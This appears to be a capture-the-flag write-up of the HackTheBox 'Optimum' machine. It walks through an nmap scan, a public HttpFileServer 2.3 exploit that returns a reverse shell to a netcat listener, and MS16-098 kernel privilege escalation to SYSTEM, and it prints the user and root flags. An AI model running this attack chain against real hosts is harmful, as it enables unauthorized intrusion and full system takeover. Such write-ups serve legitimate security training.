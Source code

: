 # Optimum - Easy

## Enumeration
`sudo nmap 10.129.76.230 -p- -sV -A -vv --open -reason -Pn`

Port 80 was open, so upon visiting the website:
![Imgur](https://i.imgur.com/Qi1irof.jpg)

## Getting A Shell

A quick search for "HttpFileServer 2.3" yields the following exploit:
https://www.exploit-db.com/exploits/39161

Making the necessary changes for `ip_addr` and `local_port`, and opening a listener on kali, yields a low level shell:
```
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.74] from (UNKNOWN) [10.129.76.230] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```
The `user.txt` is easily obtained:
```
C:\Users\kostas\Desktop>type user.txt
type user.txt
cbf77b2a3420ac745c39e53fcf3282f2
```

## Privilege Escalation
Decided to use the Windows Exploit Suggester (https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1. Updated the database: 
    ```
    python2 windows-exploit-suggester.py --update
    ```
2. Had to update `python2`and upgrade the `python-xlrd` library: 
    ```
    sudo apt upgrade python2

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    python2 get-pip.py

    python2 -m pip install --user xlrd==1.1.0
    ```
3. Saving the `systeminfo` into a text file and using it in the exploit suggester:
    ```
    python2 windows-exploit-suggester.py --database 2023-05-16-mssb.xls --systeminfo sysinfo.txt
    ```

There were many exploits listed. The initial one I tried was `MS16-032`, but no bueno. Searching around on Google for the Windows version (6.3.9600), I (unknowingly) found another Optimum write-up (which I didn't realise it was for this box), and for version 6.3.9600, `MS16-098` was used.

I used the compiled version of the kernel exploit from https://github.com/SecWiki/windows-kernel-exploits, called `bfill.exe`, transferred the file to the box via `powershell`, and executed `bfill.exe` in `C:\Windows\Tasks`, hence obtaining a root shell.
```
C:\Windows\Tasks>.\bfill.exe
.\bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Tasks>whoami
whoami
nt authority\system
```

The `root.txt` was easily obtained:
```
C:\Windows\Tasks\type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
d60130864088f11e9e2ea1d62204c0e7
```

GG.